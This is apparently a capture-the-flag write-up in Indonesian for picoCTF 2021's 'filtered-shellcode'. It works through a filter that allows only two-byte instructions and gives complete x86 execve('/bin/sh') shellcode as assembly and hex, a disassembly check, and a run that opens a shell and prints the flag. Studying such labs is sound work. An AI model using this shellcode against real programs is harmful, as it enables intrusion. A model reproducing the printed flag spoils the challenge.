

# filtered-shellcode

- **Kategori:** Binary Exploitation
- **Kesulitan:** Hard
- **Author:** madStacks
- **Event:** picoCTF 2021
- **Flag:** `academy{th4t_w4s_fun_0f1be5fd2eb499cd}` *(mirror CyLab Academy; di picoCTF asli `picoCTF{th4t_w4s_fun_...}` — soal & teknik identik)*

> *"A program that just runs the code you give it? That seems kinda boring... fun. `nc xebec.cylabacademy.net 28427`"*
>
> Hint: *Take a look at the calling convention and see how you might be able to setup all the registers.*

Program menerima shellcode lalu menjalankannya — tapi sebelum dieksekusi, shellcode kita **difilter**: tiap 2 byte input kita disimpan, lalu disisipkan 2 byte NOP (`\x90\x90`). Efeknya **setiap instruksi harus muat dalam 2 byte**. Tantangannya: menyusun `execve("/bin/sh")` tanpa satu pun instruksi yang lebih panjang dari 2 byte.

---

## 1. Ringkasan Solusi (TL;DR)

1. `fun.c` membaca byte mentah sampai `\n`, lalu `execute()` menyisipkan `\x90\x90` setiap 2 byte input sebelum menjalankannya.
2. Karena tiap pasangan byte langsung disusul `90 90`, **instruksi > 2 byte pasti rusak**. Semua instruksi kita harus ≤ 2 byte dan rapi per-pasangan.
3. Ini melarang `push imm32` (5B), `mov r32,imm32` (5B), `shl r,imm8` (3B) — trik shellcode `/bin/sh` standar gagal.
4. Solusi: bangun string `"/bin/sh"` di register `EBX` **byte-per-byte** pakai `mov bl,imm8` (2B) + `shl ebx,cl` (2B), lalu `push ebx` (1B). Set register execve sesuai calling convention, `int 0x80`.
5. Hasil shellcode **48 byte**, tanpa null/newline, semua instruksi ≤ 2 byte.
6. Kirim `shellcode + "\n"` → `/bin/sh` spawn → `cat flag.txt` → flag.

---

## 2. Recon

Program hanya diberi lewat `nc`, tapi setelah shell terbuka kita `cat fun.c`. Bagian intinya:

```c
void execute(char *shellcode, size_t length) {
    size_t new_length = length * 2;
    char result[new_length + 1];
    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) result[i] = shellcode[spot++];  // 2 byte punya kita
        else             result[i] = '\x90';             // lalu 2 byte NOP
    }
    result[new_length] = '\xc3';        // ret di ujung
    int (*code)() = (int(*)())result;
    code();                             // eksekusi langsung
}

int main(int argc, char *argv[]) {
    char buf[MAX_LENGTH];               // MAX_LENGTH = 1000
    // baca byte satu per satu SAMPAI '\n'
    ...
    if (length % 2) { buf[length] = '\x90'; length++; }  // padding jika ganjil
    execute(buf, length);
}
```

Yang perlu dicatat:
- **Input dibaca mentah sampai newline.** → shellcode tak boleh mengandung `0x0a`; kita akhiri dengan `\n`.
- **Tidak ada seccomp / filter syscall.** Begitu shellcode jalan, `execve` bebas.
- Program juga menempel `\xc3` (`ret`) di akhir buffer — tak relevan karena kita sudah `int 0x80` duluan.

---

## 3. Analisis — apa yang filter lakukan & batasan yang muncul

`(i % 4) < 2` menghasilkan pola per 4 byte output = **[byte-mu][byte-mu][90][90]**:

```
kamu kirim :  B0 B1 B2 B3 B4 B5 ...
dieksekusi :  B0 B1 90 90 B2 B3 90 90 B4 B5 90 90 ...
              └ pasangan ┘  NOP  └ pasangan ┘  NOP
```

> ⚠️ **Batasan inti:** setiap instruksi harus ≤ 2 byte. Instruksi 3+ byte akan menabrak zona `90 90` dan hancur. Instruksi 1-byte (`push`/`pop`) harus **dipasangkan** (mis. `push ebx; nop` → `53 90`) supaya instruksi 2-byte berikutnya tetap mulai di posisi genap.

Instruksi yang biasa dipakai untuk `/bin/sh` jadi terlarang:

| Instruksi umum | Encoding | Panjang | Status |
|---|---|---|---|
| `push 0x68732f2f` | `68 2f 2f 73 68` | 5 B | ❌ |
| `mov ebx, 0x...` | `bb xx xx xx xx` | 5 B | ❌ |
| `shl ebx, 8` | `c1 e3 08` | 3 B | ❌ |
| `shl ebx, cl` | `d3 e3` | 2 B | ✅ |
| `mov bl, imm8` | `b3 xx` | 2 B | ✅ |
| `push ebx` | `53` | 1 B | ✅ (dipasangkan) |
| `int 0x80` | `cd 80` | 2 B | ✅ |

---

## 4. Solusi

### 4.1 Calling convention (jawaban hint)

Syscall x86 32-bit `int 0x80` untuk `execve`:

| Register | Nilai | Arti |
|----------|-------|------|
| `eax` | `0xb` | nomor syscall execve |
| `ebx` | pointer `"/bin/sh\0"` | filename |
| `ecx` | `0` | argv = NULL |
| `edx` | `0` | envp = NULL |

### 4.2 Menaruh `"/bin/sh"` tanpa instruksi panjang

`"/bin/sh\0"` = 2 dword yang di-`push` terbalik: `0x0068732f` (`"/sh\0"`) lalu `0x6e69622f` (`"/bin"`). Tiap dword dibangun di `ebx` dengan geser-8-bit (pakai `shl ebx,cl`, cl=8) sambil mengisi byte terendah:

```asm
; ecx sebagai counter geser
xor ecx,ecx        ; 31 c9
mov cl,8           ; b1 08

; ebx = 0x0068732f  ("/sh\0")
xor ebx,ebx        ; 31 db
mov bl,0x68        ; b3 68   'h'
shl ebx,cl         ; d3 e3
mov bl,0x73        ; b3 73   's'
shl ebx,cl         ; d3 e3
mov bl,0x2f        ; b3 2f   '/'
push ebx           ; 53
nop                ; 90      (pengganjal pasangan)

; ebx = 0x6e69622f  ("/bin")
xor ebx,ebx        ; 31 db
mov bl,0x6e        ; b3 6e   'n'
shl ebx,cl         ; d3 e3
mov bl,0x69        ; b3 69   'i'
shl ebx,cl         ; d3 e3
mov bl,0x62        ; b3 62   'b'
shl ebx,cl         ; d3 e3
mov bl,0x2f        ; b3 2f   '/'
push ebx           ; 53
nop                ; 90

mov ebx,esp        ; 89 e3   ebx -> "/bin/sh"
xor ecx,ecx        ; 31 c9   argv=NULL
xor edx,edx        ; 31 d2   envp=NULL
xor eax,eax        ; 31 c0
mov al,0xb         ; b0 0b   eax=0xb
int 0x80           ; cd 80   execve!
```

Byte teratas `"/sh\0"` (`0x00`) otomatis jadi terminator string — datang dari geser, bukan dari byte null di input (input tak boleh punya null/newline karena pembacaan berhenti di `\n`).

Shellcode akhir (48 byte, tanpa `00`/`0a`, panjang genap):

```
31c9 b108 31db b368 d3e3 b373 d3e3 b32f 5390
31db b36e d3e3 b369 d3e3 b362 d3e3 b32f 5390
89e3 31c9 31d2 31c0 b00b cd80
```

### 4.3 Verifikasi tanpa eksekusi (disassembly)

Karena WSL di sini tak punya libc 32-bit untuk menjalankan shellcode langsung, kita **buktikan lewat disassembly**: filter dulu di Python, lalu `capstone` mendisassemble hasilnya. Kalau tiap instruksi asli tetap muncul diselingi `nop`, berarti benar:

```
0x00: xor ecx, ecx     0x04: mov cl, 8       0x08: xor ebx, ebx
0x0c: mov bl, 0x68     0x10: shl ebx, cl     0x20: push ebx     -> "/sh\0"
0x44: push ebx  -> "/bin/sh\0"               0x48: mov ebx, esp
0x4c: xor ecx, ecx     0x50: xor edx, edx    0x58: mov al, 0xb
0x5c: int 0x80         <-- utuh!
```

Solver lengkap ada di [`solver.py`](./solver.py) (`python3 solver.py --show` untuk lihat disassembly, `python3 solver.py` untuk exploit remote).

---

## 5. Verifikasi

```console
$ python3 solver.py
[remote] Give me code to run:
$ cat flag.txt
academy{th4t_w4s_fun_0f1be5fd2eb499cd}
```



**Flag: `academy{th4t_w4s_fun_0f1be5fd2eb499cd}`**

---

## 6. File

| File | Keterangan |
|------|------------|
| [`fun`](./fun) | Binary soal, ELF 32-bit i386 (not stripped). Jalankan di Linux/WSL. |
| [`fun.c`](./fun.c) | Source program soal. Filter ada di `execute()`. |
| [`solver.py`](./solver.py) | Rakit shellcode 2-byte, filter + verifikasi disassembly, exploit remote. |
| [`bukti-solve.png`](./bukti-solve.png) | Screenshot bukti dari shellcode sampai flag. |

Menjalankan:

```bash
python3 solver.py --show    # lihat shellcode + disassembly setelah filter
python3 solver.py           # kirim ke remote, spawn /bin/sh, cat flag.txt
```

> ⚠️ Butuh `capstone` untuk output disassembly (`pip install capstone`). Bagian exploit tidak butuh library eksternal.

---

## 7. Catatan / Lessons Learned

- **Baca sumber filter dulu.** Seluruh batasan (≤2 byte, alignment pasangan) turun langsung dari `(i%4)<2`. Jangan tembak shellcode standar tanpa cek.
- **Constraint byte → ganti instruksi, bukan menyerah.** `push imm32` / `mov r32,imm32` / `shl r,imm8` yang kepanjangan diganti `mov r8,imm8` + `shl r,cl` + `push r`. Pola yang sama muncul di soal *bad-char* dan *alphanumeric shellcode*.
- **Bangun konstanta di register** (geser + isi byte terendah) daripada mengandalkan immediate panjang.
- **Instruksi 1-byte dipasangkan** dengan `nop` supaya alignment pasangan tidak geser.
- **Verifikasi lewat disassembly** kalau tidak bisa eksekusi lokal — jauh lebih meyakinkan daripada menebak.
- **Pisahkan tahap kirim:** byte shellcode dulu (+`\n`), baru perintah shell — `execve` mewarisi stdin yang sama.

---

## 8. Referensi

- picoCTF 2021 — filtered-shellcode (Binary Exploitation, Hard), oleh madStacks.
- Linux x86 32-bit syscall convention: `int 0x80`, `execve` = syscall `0xb` (`eax`, argumen di `ebx`/`ecx`/`edx`).
